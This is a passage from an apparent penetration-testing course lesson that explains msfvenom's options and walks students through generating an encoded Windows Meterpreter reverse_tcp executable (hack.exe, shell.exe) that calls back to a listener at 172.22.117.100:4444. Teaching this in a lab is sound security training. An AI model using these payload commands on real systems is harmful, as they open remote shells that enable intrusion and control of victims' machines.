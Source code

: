     - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.

#### Msfvenom Command Structure

Now, let's cover the basics of the `msfvenom` custom payload command options.

- Note the following command:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=172.22.117.100 LPORT=4444`

   - Syntax breakdown:

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-a x86`: Designates the architecture we will use; the default is `x86`
      - `-e x86/shikata_ga_nai`: Designates the encoder we will use
      - `-f exe`: Indicates the file type to create (in this case, `.exe`)
      - `-o /tmp/hack.exe`: Creates an output file, specifying the file name (`hack.exe`) and location (inside the `/tmp` directory)

- Next, refer to the command that we used in the preceding lesson, and try to break it down: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-f exe`: Creates a `.exe` file type

In the activity that follows, you'll build a custom command in an exploitation attack.

[<- Back to Module Contents](#module-day-2-contents)

---

### 03. Msfvenom Payloads

Let's generate a custom payload with `msfvenom` and use it to gain a Meterpreter shell. 

- [Class Do Activity File: Custom Payload with Msfvenom](Activities/01_MSFVenom/README.md)

1. Make sure you're in your home directory, then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](Images/msfvenom.PNG)
